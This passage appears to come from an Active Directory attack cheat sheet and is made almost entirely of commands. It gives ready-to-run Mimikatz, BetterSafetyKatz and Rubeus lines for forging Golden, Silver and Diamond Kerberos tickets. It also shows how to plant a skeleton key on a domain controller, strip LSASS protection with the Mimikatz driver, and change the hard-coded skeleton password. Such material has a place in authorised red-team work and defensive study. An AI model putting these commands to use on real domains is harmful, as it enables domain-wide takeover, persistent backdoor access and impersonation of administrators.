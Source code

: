 ```powershell
BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:<domain> /sid:S-1-5-21-210670787-2521448726-163245708 /krbtgt:<ntlm> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

**Silver Ticket:**  

```powershell
# Using hash of the Domain Controller computer account, below command provides access to shares on the DC.
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:S-1-5-21-210670787-2521448726-163245708 /target:<DC-FQDN> /service:cifs /rc4:<ntlm> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
# Can use others tools used above.
```

**Diamond Ticket:**  

```powershell
# We would still need krbtgt AES keys. Use the following Rubeus command to create a diamond ticket (note that RC4 or AES keys of the user can be used too):
Rubeus.exe diamond /krbkey:<hash> /user:<foothold-user> /password:<foothold-password> /enctype:aes /ticketuser:administrator /domain:<domain> /dc:<domain-DC> /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
# We could also use /tgtdeleg option in place of credentials in case we have access as a domain user:
Rubeus.exe diamond /krbkey:<hash> /tgtdeleg /enctype:aes /ticketuser:administrator /domain:<domain> /dc:<domain-DC> /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

**Skeleton Key:**  

```powershell
# Use the below command to inject a skeleton key (password would be mimikatz) on a Domain Controller of choice. DA privileges required
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <dc-name>
# Now, it is possible to access any machine with a valid username and password as "mimikatz"
Enter-PSSession –Computername <domain-computer> –credential <domain>\Administrator
# You can access other machines as well as long as they authenticate with the DC which has been patched and the DC is not rebooted
```

If lsass is a protected process, can use skeleton key but needs mimikatz driver (mimidriv.sys) on disk of the target DC:  

```powershell
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
# The above is very noisy in the logs due to service creation
```

To set a custom skeleton key password:  
See - https://github.com/gentilkiwi/mimikatz/blob/master/mimikatz/modules/kuhl_m_misc.c#L611  
For example, to use "S3c3rtP@ss", compute its RC4 and split it into 8 bytes stubs:  
56aa742a  
6bebb9ca  
62fc9f70  
a2e00cd3  
Reverse the values by 2 bytes  
2a74aa56  
cab9eb6b  
709ffc62  
d30ce0a2  
Prepend 0x to each and modify kiwikey array value in the code linked above  
`DWORD kiwiKey[] = {0x2a74aa56, 0xcab9eb6b, 0x709ffc62, 0xd30ce0a2}`  
